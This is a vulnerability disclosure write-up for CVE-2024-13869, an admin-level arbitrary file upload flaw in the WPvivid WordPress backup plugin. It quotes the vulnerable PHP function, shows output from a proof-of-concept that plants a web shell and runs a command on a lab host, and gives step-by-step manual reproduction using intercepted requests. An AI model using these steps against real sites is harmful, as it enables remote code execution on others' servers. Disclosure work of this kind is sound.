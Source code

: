 +++
title = 'Migration,Backup, Staging – WPvivid <= 0.9.112 - Authenticated (Admin+) Arbitrary File Upload via wpvivid_upload_file'
date = 2025-02-22T05:18:12+00:00
hideToc = true
+++
### CVE-2024-13869

The [Migration, Backup, Staging – WPvivid Backup & Migration plugin](https://wordpress.org/plugins/wpvivid-backuprestore/) for WordPress is vulnerable to arbitrary file uploads due to missing file type validation in the `upload_files` function in all versions up to, and including, `0.9.112`. This makes it possible for authenticated attackers, with Administrator-level access and above, to upload arbitrary files on the affected site's server which may make remote code execution possible. 
**NOTE:** Uploaded files are only accessible on WordPress instances running on the NGINX web server as the existing .htaccess within the target file upload folder prevents access on Apache servers.

## TL;DR Exploits
* A POC [CVE-2024-13869.py](https://github.com/d0n601/CVE-2024-13869/blob/main/CVE-2024-9162.py) is provided to demonstrate an administrator uploading a web shell named `hack.php`.
  
```console
python3 ./CVE-2024-13869.py https://lab0.hacker admin PASSWORD   
Logging into: https://lab0.hacker/wp-admin
Extracting nonce values...
ajax_nonce: a993fb1986
Uploading web shell: hack.php
{"result":"success"}

Web Shell At: https://lab0.hacker/wp-content/wpvividbackups/hack.php

Executing test command: ip addr
<pre>1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
    link/ether 08:00:27:5b:34:2f brd ff:ff:ff:ff:ff:ff
    altname enp0s3
    inet 10.0.2.15/24 metric 100 brd 10.0.2.255 scope global dynamic eth0
       valid_lft 46962sec preferred_lft 46962sec
    inet6 fd00::a00:27ff:fe5b:342f/64 scope global dynamic mngtmpaddr noprefixroute 
       valid_lft 86190sec preferred_lft 14190sec
    inet6 fe80::a00:27ff:fe5b:342f/64 scope link 
       valid_lft forever preferred_lft forever
3: eth1: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
    link/ether 08:00:27:c7:fd:25 brd ff:ff:ff:ff:ff:ff
    altname enp0s8
    inet 192.168.56.56/24 brd 192.168.56.255 scope global eth1
       valid_lft forever preferred_lft forever
    inet6 fe80::a00:27ff:fec7:fd25/64 scope link 
       valid_lft forever preferred_lft forever
4: docker0: <NO-CARRIER,BROADCAST,MULTICAST,UP> mtu 1500 qdisc noqueue state DOWN group default 
    link/ether 02:42:28:bd:99:83 brd ff:ff:ff:ff:ff:ff
    inet 172.17.0.1/16 brd 172.17.255.255 scope global docker0
       valid_lft forever preferred_lft forever
</pre>
```


## Details  
It appears the `wpvivid_upload_file` action calls the `upload_files` function on line 293 of `/wp-content/plugins/wpvivid-backuprestore/includes/class-wpvivid-backup-uploader.php`, which checks the nonce and user's permissions, but not the file type being uploaded to the server.

```php
    function upload_files()
    {
        check_ajax_referer( 'wpvivid_ajax', 'nonce' );
        $check=current_user_can('manage_options');
        $check=apply_filters('wpvivid_ajax_check_security',$check);
        if(!$check)
        {
            die();
        }

        try
        {
            $chunk = isset($_REQUEST["chunk"]) ? intval(sanitize_key($_REQUEST["chunk"])) : 0;
            $chunks = isset($_REQUEST["chunks"]) ? intval(sanitize_key($_REQUEST["chunks"])) : 0;

            $fileName = isset($_REQUEST["name"]) ? sanitize_text_field($_REQUEST["name"]) : $_FILES["file"]["name"];

            $backupdir=WPvivid_Setting::get_backupdir();
            $filePath = WP_CONTENT_DIR.DIRECTORY_SEPARATOR.$backupdir.DIRECTORY_SEPARATOR.$fileName;

            $out = @fopen("{$filePath}.part", $chunk == 0 ? "wb" : "ab");

            if ($out)
            {
                // Read binary input stream and append it to temp file
                $options['test_form'] =true;
                $options['action'] ='wpvivid_upload_files';
                $options['test_type'] = false;
                $options['ext'] = 'zip';
                $options['type'] = 'application/zip';

                add_filter('upload_dir', array($this, 'upload_dir'));

                $status = wp_handle_upload($_FILES['async-upload'],$options);

                remove_filter('upload_dir', array($this, 'upload_dir'));

                $in = @fopen($status['file'], "rb");

                if ($in)
                {
                    while ($buff = fread($in, 4096))
                        fwrite($out, $buff);
                }
                else
                {
                    echo wp_json_encode(array('result'=>'failed','error'=>"Failed to open tmp file.path:".$status['file']));
                    die();
                }

                @fclose($in);
                @fclose($out);

                @wp_delete_file($status['file']);
            }
            else
            {
                echo wp_json_encode(array('result'=>'failed','error'=>"Failed to open input stream.path:{$filePath}.part"));
                die();
            }

            if (!$chunks || $chunk == $chunks - 1)
            {
                // Strip the temp .part suffix off
                rename("{$filePath}.part", $filePath);
            }

            echo wp_json_encode(array('result' => WPVIVID_SUCCESS));
        }
        catch (Exception $error)
        {
            $message = 'An exception has occurred. class: '.get_class($error).';msg: '.$error->getMessage().';code: '.$error->getCode().';line: '.$error->getLine().';in_file: '.$error->getFile().';';
            error_log($message);
            echo wp_json_encode(array('result'=>'failed','error'=>$message));
        }
        die();
    }
```


## Manual Reproduction
1. Login to the admin panel and navigate to the `WPvivid Backup` tab.
2. Under `Backup & Restore`, click the `Backup Now` button to create a new backup and download it so we can use the `.zip` file in the following steps.
3. Under the `Backup & Restore` section again, navigate to the `Upload` tab and select the `.zip` we've just created. 
![pre_upload](https://github.com/user-attachments/assets/55ddbb43-ba15-47b2-88ac-dd801208049e)
4. Start up Burp Suite or a similar tool and begin intercepting the traffic. 
5. Click `Upload` and intercept the `POST` request to `/wp-admin/admin-ajax.php` calling the `wpvivid_upload_files` action.
![intercept_call](https://github.com/user-attachments/assets/6fcb8edd-9d34-4b05-b1aa-0b83c8d4795c)
6. Modify the request to include an arbitrary file, in the example below we're uploading a php web shell. 
![modify](https://github.com/user-attachments/assets/7170a0b2-a9b6-4623-919d-3f105d9e2d45)
7. Send the request and recieve `{"result":"success"}`.
![sent_modified](https://github.com/user-attachments/assets/a49b17fb-2c62-41d9-88e9-63ad77a4e164)
8. Browse the web shell at `https://example.com/wp-content/wpvividbackups/webshell.php` and execute code.
![hitshell](https://github.com/user-attachments/assets/fe5907a6-239c-4367-ad70-73c420b06443)
